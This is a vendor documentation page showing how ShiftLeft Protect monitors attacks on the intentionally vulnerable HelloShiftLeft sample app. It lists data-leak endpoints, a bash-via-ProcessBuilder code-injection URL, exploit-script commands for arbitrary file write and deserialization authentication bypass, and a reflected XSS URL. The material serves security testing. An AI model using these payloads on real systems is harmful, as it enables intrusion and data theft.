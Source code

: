 # Using ShiftLeft Protect in Monitoring Mode

You can use ShiftLeft Protect in monitoring mode with your IAST tool.

## Example of ShiftLeft Protect Monitoring

ShiftLeft Protect detects exploits and payload, also blocks and sanitizes, vulnerabilities. For example, vulnerabilities and exposures in the [HelloShiftLeft sample application](../../introduction/helloshiftleft.md) can be tested with API access patterns described below and through example scripts provided in the [exploits directory](https://github.com/ShiftLeftSecurity/HelloShiftLeft/tree/master/exploits). 

### Sensitive Data Leaks to Log

| URL	  | Purpose |
| ------------- | ------------- |
| http://<span></span>localhost:8081/customers/1 | Returns JSON representation of Customer resource based on Id (1) specified in URL |
| http://<span></span>localhost:8081/customers | Returns JSON representation of all available Customer resources |
| http://<span></span>localhost:8081/patients | Returns JSON representation of all available patients in record |
| http://<span></span>localhost:8081/account/1 | Returns JSON representation of Account based on Id (1) specified |
| http://<span></span>localhost:8081/account | Returns JSON representation of all available accounts and their details |
	
All the above requests leak sensitive medical and PII data to the logging service. In addition other endpoints such as `/saveSettings`, `/search/user`, `/admin/login` etc. are also available. Along with the list above, users can explore variations of `GET`, `POST` and `PUT` requests sent to these endpoints.

### Remote Code Execution

An RCE can be triggered through the `/search/user` endpoint by sending a `GET` HTTP request as follows:

http://<span></span>localhost:8081/search/user?foo=new java.lang.ProcessBuilder({'/bin/bash','-c','echo 3vilhax0r>/tmp/hacked'}).start()

This creates a file `/tmp/hacked` with the content `3vilhax0r`.

### Arbitrary File Write

The [filewriteexploit.py](https://github.com/ShiftLeftSecurity/HelloShiftLeft/blob/master/exploits/filewriteexploit.py) script can be executed as follows to trigger the arbitrary file writing through the `/saveSettings` endpoint:

```
$ python2 filewriteexploit.py http://localhost:8081/saveSettings testfile 3vilhax0r
```

This creates a file named `testfile` with `3vilhax0r` as its contents.

### Authentication Bypass

The [exploit.py](https://github.com/ShiftLeftSecurity/helloshiftleft/blob/master/exploits/JavaSerializationExploit/src/main/java/exploit.py) script allows an authentication bypass by exposing a deserialization vulnerability which allows administrator access:

```
$ python2 exploit.py
```

This returns the following sensitive data:

```
Customer;Month;Volume
Netflix;January;200,000
Palo Alto;January;200,000
### XSS
```

A reflected XSS vulnerability exists in the application and can be triggered using the **hidden** `/debug` endpoint as 

```
http://<span></span>localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432alert(1)
```

The result is an alert and returns the Customer object data.
